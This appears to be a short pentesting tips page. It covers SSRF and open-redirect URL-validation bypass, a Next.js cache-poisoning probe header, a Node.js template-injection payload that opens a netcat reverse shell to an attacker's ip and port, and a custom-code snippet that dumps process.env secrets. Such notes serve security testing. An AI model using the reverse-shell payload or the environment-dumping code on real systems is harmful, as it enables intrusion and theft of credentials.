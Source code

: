 # Tips

### URL Validation bypass (openredirect, SSRF, vv)

```
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet
```

### Find nextjs page try Add Header

```
X-middleware-prefetch: 1
```

Maybe have CVE-2023-46298 if save cache

{% embed url="https://zhero-web-sec.github.io/research-and-things/nextjs-and-cache-poisoning-a-quest-for-the-black-hole" %}

### RCE node js teamplate

If you discover a node.js template area, you should try triggerable node payload `require('child_process').exec('nc -e sh ip port');{src:/bin/sh/}`

### JS Custome Execute

Added JavaScript code in the custom code feature:&#x20;

```
export default async function run({ execution_id, input, data }) {
    return {
        env: process.env,
    };
}
```
